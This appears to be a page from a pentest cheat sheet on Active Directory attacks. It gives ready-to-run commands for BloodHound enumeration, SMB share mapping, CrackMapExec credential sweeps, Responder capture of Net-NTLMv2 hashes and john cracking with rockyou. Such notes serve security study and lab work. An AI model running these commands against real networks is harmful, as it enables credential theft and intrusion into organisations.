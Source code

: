 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers) 

## Active Directory Enumeration {-}

As soon as we see port 88 and 389 or if victime machine changed the port number and we see Kerberos and LDAP, Attacker can estimate that the 
victim machine is a Domain Controller.

If we already have credentials, we can enumerate the Active Directory with the bloodhound package

1. Install bloodhound injester
    
    ```bash
    python -m venv venv
    source venv/bin/activate
    pip install bloodhound
    ```

1. Run enumeration

    ```bash
    bloodhound-python -d victim.local -u username -p "Password" -gc machine.victim.local -c all -ns 10.10.10.11
    ```

1. New json files have been created in your working directory

    ```bash
    ls -la *.json
    ```

1. Install bloodhound and neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. configure neo4j service

    ```bash
    sudo neo4j console
    ```


## Map SAMBA exposed shared resources with smbmap {-}

```bash
smbmap -H 10.10.10.10 -u " " -p " "
```

## SMB connection with smbclient {-}

```bash
smbclient //10.10.10.10/<READ ONLY Desired resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected


## Enumerate machines by SAMBA with crackmapexec {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

If we have credentials of a user, and this one have admin priviledges on machines, You can use **CrackMapExec** to check those priviledges.
If it's the case, you will see a (Pwn3d!) in the result.

```bash
cme smb 192.168.0.0/24 -u 'user' -p 'password1'
```


## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of the user.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```
